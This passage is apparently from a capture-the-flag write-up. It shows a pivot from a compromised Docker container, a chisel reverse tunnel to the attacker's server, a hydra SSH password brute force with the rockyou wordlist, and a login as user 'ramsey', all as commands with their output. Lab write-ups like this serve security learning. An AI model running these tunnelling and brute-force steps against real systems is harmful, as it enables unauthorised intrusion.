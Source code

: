 ```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.13|09:21:51]
└> ./chiselx64 server --reverse -p 8888
2023/01/13 09:21:55 server: Reverse tunnelling enabled
2023/01/13 09:21:55 server: Fingerprint xOiq4AJ7VODnEu1iXNOYHisx53zzaEeHiuqwLjpGngA=
2023/01/13 09:21:55 server: Listening on http://0.0.0.0:8888

root@8b39a559b296:/home# /tmp/chisel client 10.9.0.253:8888 R:2222:172.17.0.1:22
2023/01/13 01:37:54 client: Connecting to ws://10.9.0.253:8888
2023/01/13 01:37:55 client: Connected (Latency 211.976805ms)
```

Then, we can communicate to `172.17.0.1`.

**Since we know there is a user called `ramsey`, we can try to brute force SSH with `hydra`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|09:38:04]
└> hydra -l 'ramsey' -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.1 -s 2222
[...]
[2222][ssh] host: 172.17.0.1   login: ramsey   password: {Redacted}
```

Found user `ramsey`' password!

**Let's SSH into user `ramsey`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|09:40:05]
└> ssh ramsey@172.17.0.1 -p 2222
ramsey@172.17.0.1's password: 
ramsey@unbaked:~$ whoami;hostname;id;ip a
ramsey
unbaked
uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:9d:2a:2d:05:b3 brd ff:ff:ff:ff:ff:ff
    inet 10.10.49.15/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:2aff:fe2d:5b3/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:40:ad:94:49 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:40ff:fead:9449/64 scope link 
       valid_lft forever preferred_lft forever
5: vethce88f61@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether ce:10:16:87:86:01 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::cc10:16ff:fe87:8601/64 scope link 
       valid_lft forever preferred_lft forever
```
